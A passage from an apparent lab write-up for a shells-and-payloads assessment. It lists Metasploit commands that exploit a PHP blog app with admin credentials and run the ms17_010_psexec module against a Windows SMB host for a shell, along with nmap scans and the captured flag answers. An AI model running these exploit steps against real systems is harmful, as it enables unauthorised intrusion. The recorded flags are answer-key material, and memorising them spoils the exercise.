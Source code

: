 # Reload all modules
reload_all

# Now when searching for Lightweight, we could access the exploit
```bash
search Lightweight
use exploit/php/webapps/50064
options
set RHOSTS 172.16.1.12
set TARGETURI /
set VHOST blog.inlanefreight.local
set USERNAME admin
set PASSWORD admin123!@#
run
```
`cat /customscripts/flag.txt`
**Results:** `B1nD_Shells_r_cool`

What is the hostname of Host-3?

```bash
sudo nmap -A 172.16.1.13 -p80,135,139,445
```
Results: SHELLS-WINBLUE

Exploit and gain a shell session with Host-3. Then submit the contents of C:\Users\Administrator\Desktop\Skills-flag.txt


```bash
msfconsole -q
use exploit/windows/smb/ms17_010_psexec
SET RHOSTS 172.16.1.13
SET LHOST 172.16.1.5
run
``` 
shell
type C:\Users\Administrator\Desktop\Skills-flag.txt
**Results:** `One-H0st-Down!`